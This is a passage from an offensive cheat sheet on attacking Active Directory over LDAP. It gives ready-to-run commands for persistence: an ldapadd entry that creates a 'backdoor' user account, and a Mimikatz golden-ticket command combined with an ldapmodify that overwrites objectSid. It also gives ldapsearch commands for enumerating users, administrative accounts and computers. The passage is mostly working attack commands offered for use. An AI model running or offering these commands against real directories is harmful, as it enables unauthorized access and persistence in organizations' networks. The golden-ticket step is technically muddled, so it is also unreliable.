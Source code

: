 #### 3.2 Persistence via Malicious LDAP Entries
- **Create a Backdoor User via LDAP**: Adds a new user object to the LDAP directory, effectively creating a backdoor account.
  ```
  ldapadd -x -H ldap://<target_ip> -D "CN=<username>,DC=domain,DC=com" -w '<password>' <<EOF
  dn: CN=backdoor,CN=Users,DC=domain,DC=com
  objectClass: user
  sAMAccountName: backdoor
  userPassword: <backdoor_password>
  EOF
  ```

#### 3.3 Abusing LDAP for Golden Ticket Persistence
- **Mimikatz + LDAP for Golden Ticket Persistence**: Combines Mimikatz to create a golden ticket with direct LDAP modification to persist this change within the directory.
  ```powershell
  mimikatz # kerberos::golden /user:<username> /domain:<domain> /sid:<domain_SID> /krbtgt:<NTLM_hash> /id:<user_id>
  ldapmodify -x -H ldap://<target_ip> -D "CN=<username>,DC=domain,DC=com" -w '<password>' <<EOF
  dn: CN=<target_user>,DC=domain,DC=com
  changetype: modify
  replace: objectSid
  objectSid: <golden_ticket_sid>
  EOF
  ```

## 4. Advanced LDAP Enumeration Techniques

#### 4.1 Enumerate LDAP Objects with Specific Attributes
- **Retrieve Specific Attributes**: Retrieves specific attributes (`sAMAccountName`, `mail`, and `memberOf`) for all users in the directory. This is useful for gathering email addresses and group memberships.
  ```bash
  ldapsearch -x -H ldap://<target_ip> -b "DC=domain,DC=com" "(objectClass=user)" sAMAccountName,mail,memberOf
  ```

#### 4.2 Enumerate LDAP Administrative Accounts
- **List Administrative Accounts**: Queries the LDAP directory for users with `adminCount=1`, which typically indicates administrative accounts.
  ```bash
  ldapsearch -x -H ldap://<target_ip> -b "DC=domain,DC=com" "(&(objectClass=user)(adminCount=1))"
  ```

#### 4.3 Enumerate LDAP Computer Accounts
- **Retrieve Computer Accounts**: Extracts information about computer objects, including their `sAMAccountName`, `dNSHostName`, and `operatingSystem`.
  ```bash
  ldapsearch -x -H ldap://<target_ip> -b "DC=domain,DC=com" "(objectClass=computer)" sAMAccountName,dNSHostName,operatingSystem
  ```

#### 4.4 LDAP Paging Search
- **Paged Results Search**: This command uses the `-E pr=200/noprompt` option to perform a paged search, returning 200 entries at a time. Useful when the LDAP directory contains a large number of entries.
  ```bash
  ldapsearch -x -H ldap://<target_ip> -b "DC=domain,DC=com" "(objectClass=*)" -E pr=200/noprompt
  ```
